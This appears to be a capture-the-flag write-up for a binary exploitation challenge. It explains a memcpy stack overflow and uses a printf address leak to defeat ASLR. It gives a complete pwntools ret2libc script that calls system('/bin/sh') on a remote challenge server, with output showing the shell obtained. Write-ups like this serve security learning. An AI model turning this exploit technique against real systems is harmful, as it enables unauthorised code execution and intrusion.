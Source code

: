 Since we are using a secure implementation of `fgets` there is no buffer overflow in case of `input` but if you give the input size as anything greater than 64 ( size of `buffer` ) then memcpy will copy all of that into the 64 byte buffer, thus overflowing it and allowing us to control the return pointer. However, this time we don't have a special `shell()` function to help us, so we have to manually do that by constructing a ROP chain:
```
pop rdi ; ret
pointer to /bin/sh
ret     // to fix stack misalignment
address of system()
```
For that we need gadgets, but the provided binary doesn't have anything useful
```console
$ ROPgadget --binary nothing-to-return_patched | grep "pop"
0x000000000040117b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401176 : mov byte ptr [rip + 0x2eeb], 1 ; pop rbp ; ret
0x000000000040128c : nop ; pop rbp ; ret
0x000000000040117d : pop rbp ; ret
```
So we need to rely on `libc` to provide gadgets. However since `ASLR` is enabled the addresses will change and we cannot hardcode them in the solve script. To fix this we need to calculate the `libc` base at runtime and use that to calculate subsequent gadgets. To find the `libc` base, we can utilize the leak:
`printf("printf is at %p\n",printf);`.
So finally here is the solve script:
```py
import pwn

p64 = lambda x : pwn.pack(x, word_size=64)

libc = pwn.ELF('./libc.so.6', checksec=False)
# p = pwn.process('./nothing-to-return_patched')
p = pwn.remote('34.30.126.104', 5000)

p.recvuntil(b'0x')
libc_leak = int( p.recvline(), 16 )
libc_base = libc_leak - libc.symbols['printf']

rop = pwn.ROP(libc)
offset = 72
payload  = b''
payload += b'A' * offset
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( libc_base + next(libc.search(b'/bin/sh\x00')) )
payload += p64( libc_base + rop.find_gadget(['ret']).address )
payload += p64( libc_base + libc.symbols['system'] )

p.sendlineafter(b'Input size:\n', str(len(payload) + 1).encode())
p.sendlineafter(b'Enter your input:\n', payload)

p.clean()
p.interactive()
```
{: file="solve.py"}
```console
> python solve.py
[+] Opening connection to 34.30.126.104 on port 5000: Done
[*] Loaded 216 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
$ ls
flag
ld-linux-x86-64.so.2
libc.so.6
run
$ cat flag
```